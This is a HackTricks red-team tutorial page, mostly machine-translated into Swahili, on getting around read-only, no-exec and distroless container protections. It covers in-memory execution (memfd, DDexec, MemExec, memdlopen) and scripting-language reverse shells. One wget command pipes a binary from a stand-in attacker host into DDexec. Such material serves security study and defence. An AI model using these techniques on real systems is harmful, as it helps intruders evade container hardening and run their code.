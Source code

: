 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In the following videos you can find the techniques mentioned in this page explained more in depth:

* [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## read-only / no-exec scenario

Ni kawaida zaidi na zaidi kukutana na mashine za linux zilizowekwa na **read-only (ro) file system protection**, hasa katika kontena. Hii ni kwa sababu kuendesha kontena na mfumo wa faili wa ro ni rahisi kama kuweka **`readOnlyRootFilesystem: true`** katika `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Hata hivyo, hata kama mfumo wa faili umewekwa kama ro, **`/dev/shm`** bado itaandikwa, hivyo ni uongo kwamba hatuwezi kuandika chochote kwenye diski. Hata hivyo, folda hii itakuwa **imewekwa na ulinzi wa no-exec**, hivyo ikiwa utashusha binary hapa huwezi **kuweza kuitekeleza**.

{% hint style="warning" %}
Kutoka kwa mtazamo wa timu nyekundu, hii inafanya **kuwa ngumu kupakua na kutekeleza** binaries ambazo hazipo kwenye mfumo tayari (kama backdoors au enumerators kama `kubectl`).
{% endhint %}

## Easiest bypass: Scripts

Kumbuka kwamba nilitaja binaries, unaweza **kutekeleza script yoyote** mradi tu mfasiri yuko ndani ya mashine, kama **shell script** ikiwa `sh` inapatikana au **python** **script** ikiwa `python` imewekwa.

Hata hivyo, hii haitoshi kutekeleza backdoor yako ya binary au zana nyingine za binary unazoweza kuhitaji kuendesha.

## Memory Bypasses

Ikiwa unataka kutekeleza binary lakini mfumo wa faili haukuruhusu, njia bora ya kufanya hivyo ni kwa **kuitekeleza kutoka kwenye kumbukumbu**, kwani **ulinzi hauwezi kutumika huko**.

### FD + exec syscall bypass

Ikiwa una injini za script zenye nguvu ndani ya mashine, kama **Python**, **Perl**, au **Ruby** unaweza kupakua binary ili kuitekeleza kutoka kwenye kumbukumbu, kuihifadhi katika file descriptor ya kumbukumbu (`create_memfd` syscall), ambayo haitalindwa na ulinzi huo na kisha kuita **`exec` syscall** ikionyesha **fd kama faili ya kutekeleza**.

Kwa hili unaweza kwa urahisi kutumia mradi [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Unaweza kupitisha binary na itaunda script katika lugha iliyoashiriwa na **binary iliyoshinikizwa na b64 encoded** pamoja na maelekezo ya **kufungua na kuondoa** katika **fd** iliyoundwa kwa kuita `create_memfd` syscall na wito wa **exec** syscall kuikimbia.

{% hint style="warning" %}
Hii haifanyi kazi katika lugha nyingine za scripting kama PHP au Node kwa sababu hazina njia yoyote ya **kawaida ya kuita raw syscalls** kutoka kwenye script, hivyo haiwezekani kuita `create_memfd` kuunda **memory fd** kuhifadhi binary.

Zaidi ya hayo, kuunda **fd ya kawaida** na faili katika `/dev/shm` haitafanya kazi, kwani hutaruhusiwa kuikimbia kwa sababu **ulinzi wa no-exec** utaweza kutumika.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) ni mbinu inayokuruhusu **kurekebisha kumbukumbu ya mchakato wako** kwa kuandika tena **`/proc/self/mem`**.

Hivyo, **kuweza kudhibiti msimbo wa mkusanyiko** unaotekelezwa na mchakato, unaweza kuandika **shellcode** na "kubadilisha" mchakato ili **kutekeleza msimbo wowote wa kawaida**.

{% hint style="success" %}
**DDexec / EverythingExec** itakuruhusu kupakia na **kutekeleza** shellcode yako mwenyewe au **binary yoyote** kutoka **kumbukumbu**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Kwa maelezo zaidi kuhusu mbinu hii angalia Github au:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) ni hatua ya asili inayofuata ya DDexec. Ni **DDexec shellcode demonised**, hivyo kila wakati unapotaka **kufanya kazi na binary tofauti** huwezi kuanzisha tena DDexec, unaweza tu kuendesha memexec shellcode kupitia mbinu ya DDexec na kisha **kuwasiliana na demon hii ili kupitisha binaries mpya za kupakia na kuendesha**.

Unaweza kupata mfano wa jinsi ya kutumia **memexec kutekeleza binaries kutoka kwa PHP reverse shell** katika [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Kwa kusudi linalofanana na DDexec, mbinu ya [**memdlopen**](https://github.com/arget13/memdlopen) inaruhusu **njia rahisi ya kupakia binaries** kwenye kumbukumbu ili baadaye kuziendesha. Inaweza hata kuruhusu kupakia binaries zenye utegemezi.

## Distroless Bypass

### Nini distroless

Mizigo ya distroless ina sehemu tu za **muhimu kabisa zinazohitajika kuendesha programu au huduma maalum**, kama vile maktaba na utegemezi wa wakati wa kuendesha, lakini inatenga sehemu kubwa kama vile meneja wa pakiti, shell, au zana za mfumo.

Lengo la mizigo ya distroless ni **kupunguza uso wa shambulio wa mizigo kwa kuondoa sehemu zisizohitajika** na kupunguza idadi ya udhaifu ambao unaweza kutumiwa.

### Reverse Shell

Katika mizigo ya distroless huenda **usipate hata `sh` au `bash`** kupata shell ya kawaida. Hutaweza pia kupata binaries kama `ls`, `whoami`, `id`... kila kitu ambacho kawaida unakimbia kwenye mfumo.

{% hint style="warning" %}
Hivyo, huwezi kupata **reverse shell** au **kuhesabu** mfumo kama unavyofanya kawaida.
{% endhint %}

Hata hivyo, ikiwa kontena lililovunjwa linaendesha kwa mfano flask web, basi python imewekwa, na hivyo unaweza kupata **Python reverse shell**. Ikiwa linaendesha node, unaweza kupata Node rev shell, na vivyo hivyo na lugha nyingi za **scripting**.

{% hint style="success" %}
Kwa kutumia lugha ya scripting unaweza **kuhesabu mfumo** kwa kutumia uwezo wa lugha hiyo.
{% endhint %}

Ikiwa hakuna **`read-only/no-exec`** ulinzi unaweza kutumia reverse shell yako **kuandika kwenye mfumo wa faili binaries zako** na **kuziendesha**.

{% hint style="success" %}
Hata hivyo, katika aina hii ya mizigo ulinzi huu kwa kawaida utawepo, lakini unaweza kutumia **mbinu za awali za utekelezaji wa kumbukumbu kuzipita**.
{% endhint %}

Unaweza kupata **mfano** wa jinsi ya **kutumia udhaifu fulani wa RCE** kupata lugha za scripting **reverse shells** na kuendesha binaries kutoka kwenye kumbukumbu katika [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ikiwa unavutiwa na **kazi ya hacking** na kuhack yasiyoweza kuhackwa - **tunatafuta wafanyakazi!** (_kuandika na kuzungumza kwa kiswahili vizuri kunahitajika_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki hila za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
